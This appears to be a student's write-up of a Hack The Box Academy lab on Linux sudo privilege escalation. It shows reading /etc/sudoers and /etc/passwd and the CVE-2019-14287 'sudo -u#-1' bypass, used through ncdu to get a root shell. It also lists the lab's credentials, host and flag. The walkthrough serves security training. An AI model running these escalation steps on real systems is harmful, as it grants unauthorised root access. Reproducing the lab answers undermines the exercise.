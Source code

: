 # SUDO

- The latest sudo vulnerability is [CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)
- Here is a [Proof-of-Concept](https://github.com/blasty/CVE-2021-3156)

The following will list which users and/or groups are allowed to run which programs with what privileges
``` python
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

Determine sudo version
``` python
sudo -V | head -n1
```

Determine OS Version
```python
cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

## Sudo Policy Bypass

[CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) This sudo vulnerability affects all versions below 1.8.28 .

The only pre-req for this exploit is the user having to be in the /etc/sudoers file. 

Sudo also allows commands to be executed with a users ID. The users ID can be found in the /etc/passwd file like so. The ID being ==1005==
```python
cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

If a negative ID is entered as sudo, this will default to 0, the root user
```python
sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

# Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.205.110
```

Hostname
```python
ACADEMY-LLPE-SUDO
```

SSH
```python
ssh htb-student@ACADEMY-LLPE-SUDO
```
## Enumeration

Enumerating sudo version. This isn't one of the versions affected by CVE-2021-3156
```bash
$ sudo -V | head -n1
Sudo version 1.8.21p2
```

Verify sudo permissions. The user has the capability to execute the ncdu binary with sudo permissions
```bash
$ sudo -l
[sudo] password for htb-student: 
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

> [! info]
> What is ncdu? It is short for NCurses Disk Usage, is a command-line utility designed to help users and system administrators find and manage disk space usage on Linux systems. It can be used to break out of an interactive shell. After executing, pressing the character 'b' will spawn an interactive shell

```python
$ sudo -u#-1 ncdu
# 
# id
uid=0(root) gid=1001(htb-student) groups=1001(htb-student)
```

Flag
```
HTB{SuD0_e5c4l47i0n_1id}
```




